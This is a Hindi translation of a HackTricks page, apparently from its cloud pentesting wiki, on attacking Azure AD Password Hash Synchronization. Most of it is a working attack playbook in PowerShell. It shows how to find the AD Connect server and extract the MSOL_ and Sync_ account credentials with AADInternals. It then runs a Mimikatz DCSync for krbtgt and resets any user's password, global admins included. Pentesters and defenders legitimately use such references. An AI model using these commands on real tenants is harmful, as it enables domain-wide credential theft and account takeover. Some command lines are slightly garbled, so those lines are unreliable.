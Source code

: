 # Az - PHS - पासवर्ड हैश सिंक्रनाइज़ेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

**पासवर्ड हैश सिंक्रनाइज़ेशन** हाइब्रिड पहचान को पूरा करने के लिए प्रयुक्त साइन-इन विधियों में से एक है। **Azure AD Connect** एक हैश, उपयोगकर्ता के पासवर्ड के हैश का, ऑन-प्रिमाइसेस Active Directory इंस्टेंस से क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह **सबसे आम विधि** है जिसका उपयोग कंपनियां ऑन-प्रिम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए करती हैं।

सभी **उपयोगकर्ता** और पासवर्ड हैशेस का **हैश** ऑन-प्रिम से Azure AD में सिंक्रनाइज़ किया जाता है। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल** **हैशेस** Azure AD में नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन एडमिन्स...) Azure AD में **सिंक्रनाइज़ नहीं किए जाते** हैं।

**हैशेस सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **सिंक्रनाइज़ नहीं** होती है। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (परिवर्तित नहीं किया गया है) वह पुराने पासवर्ड का उपयोग करके Azure संसाधनों तक पहुंच जारी रख सकता है।

जब एक ऑन-प्रिम उपयोगकर्ता Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है जैसे **Identity Protection** और AAD Domain Services।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** ऑन-प्रिम AD में स्वचालित रूप से बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसमें **रेप्लिकेशन (DCSync) अनुमतियां ऑन-प्रिम AD में** होती हैं।
* Azure AD में **`Sync_<on-prem ADConnect Server का नाम>_installationID`** नामक एक खाता बनाया जाता है। यह खाता Azure AD में किसी भी उपयोगकर्ता (सिंक्रनाइज़ या क्लाउड केवल) का **पासवर्ड रीसेट कर सकता है**।

इन दो पूर्व विशेषाधिकार प्राप्त खातों के पासवर्ड **SQL सर्वर पर संग्रहीत** किए जाते हैं जो **Azure AD Connect स्थापित सर्वर पर** होता है। एडमिन उन विशेषाधिकार प्राप्त उपयोगकर्ताओं के पासवर्ड स्पष्ट-पाठ में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक तालिका से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें ऑन-प्रिम AD में **`MSOL_*`** उपयोगकर्ता के पासवर्ड और AzureAD में **Sync\_\*** का पासवर्ड शामिल है। इसलिए, इन्हें समझौता करने से AD और AzureAD में प्रिवेस्क करना संभव है।

आप इन क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं, इसका [पूरा अवलोकन इस वार्ता में पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect server** का पता लगाना

यदि **Azure AD connect स्थापित सर्वर** डोमेन से जुड़ा हुआ है (दस्तावेज़ों में सिफारिश की गई), तो इसे खोजना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** अकाउंट को समझौता करके किसी भी उपयोगकर्ता (ग्लोबल एडमिनिस्ट्रेटर्स सहित) का **पासवर्ड रीसेट** करना संभव है
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड में परिवर्तन किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
```markdown
इस उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **सेवा सिद्धांत को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **Sync** उपयोगकर्ता करने की **अनुमतियाँ** हैं, और फिर **उस सेवा सिद्धांत तक पहुँचना** प्रिवेस्क के तरीके के रूप में।
{% endhint %}

### सीमलेस SSO

PHS के साथ सीमलेस SSO का उपयोग संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे जाँचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
```
